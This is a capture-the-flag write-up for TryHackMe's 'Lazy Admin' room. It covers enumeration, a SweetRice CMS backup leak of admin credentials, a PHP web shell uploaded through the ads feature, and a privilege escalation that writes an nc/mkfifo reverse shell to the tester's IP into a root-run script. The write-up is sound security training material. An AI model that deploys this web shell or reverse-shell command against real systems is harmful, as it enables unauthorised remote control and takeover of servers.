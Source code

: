 ```yaml
---
layout: post
title: Lazy Admin
date: 2020-09-23 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, hashcracking, wordpress, GTFO] # add tag
---
```


## Description

The Following Post is writeup of Lazy Admin room of tryhackme <https://tryhackme.com/room/lazyadmin>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | MrSeth6797

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have sweetrice CMS(on Dirbusting). On searching
for public exploits we found a backup disclosure which contains admin username and password.
We have php code execution in ads tab of sweetrice. www-data can run a script as sudo and have write
rights for thats so putting reverse shell we will get root.

## Walkthrough

### Enumeration

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $nmap -sC -sV -oA nmap/lazy 10.10.232.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 03:48 IST
Nmap scan report for 10.10.232.150
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.24 seconds
```

So let;s see port 80

#### port 80

![Webpage](/assets/img/mrrobot/port80.png)

So we can see few links after the Webpage loaded.
Moving on to dirbust.

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

Dirbusting content again.

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/content/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

![sweetrice](/assets/img/lazyadmin/sweetrice.png)

![login](/assets/img/lazyadmin/login.png)

So we have sweetrice in /content and login in /content/as.<br/>
Let's check if we can get any info about sweetrice.

![searchsploit](/assets/img/lazyadmin/searchsploit.png)

We can see backup disclosure let's check that output
![backup](/assets/img/lazyadmin/backup.png)

Download the backup and look into it we got admin user and password.
![backup](/assets/img/lazyadmin/sql.png)

![HashCrack](/assets/img/lazyadmin/hashcrack.png)

OK so finally logged in we can see another vulnerability on ads tab in sweetrice which leads to rce.

<https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html>

#### Exploitation

so according to packet storm we can exec code using ads feature in sweet rice

![ads](/assets/img/lazyadmin/ads.png)

so i uploaded a simple php shell

```html
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>

</html>
```

let's get a reverse shell

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4444
[11:07:07] received connection from 10.10.182.220:46374                                                                connect.py:148
[11:07:08] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                                            victim.py:325
[11:07:19] pwncat running in /bin/sh                                                                                    victim.py:358
[11:07:27] pwncat is ready 🐈                                                                                           victim.py:768


(remote) www-data@THM-Chal:/$bash

www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
so we can edit copy.sh and get root

```bash
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.108.114 4443 >/tmp/f" > /etc/copy.sh

┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4443
[11:36:23] received connection from 10.10.182.220:42902                                          connect.py:148
[11:36:26] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                      victim.py:325
[11:36:39] pwncat running in /bin/sh                                                              victim.py:358
[11:36:46] pwncat is ready 🐈                                                                     victim.py:768


(remote) root@THM-Chal:/$ bash
root@THM-Chal:/# ls
bin   cdrom  etc   initrd.img      lib         media  opt   root  sbin  srv  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
root@THM-Chal:/# cd root/
root@THM-Chal:~# ls
root.txt
root@THM-Chal:~# cat root.txt
```
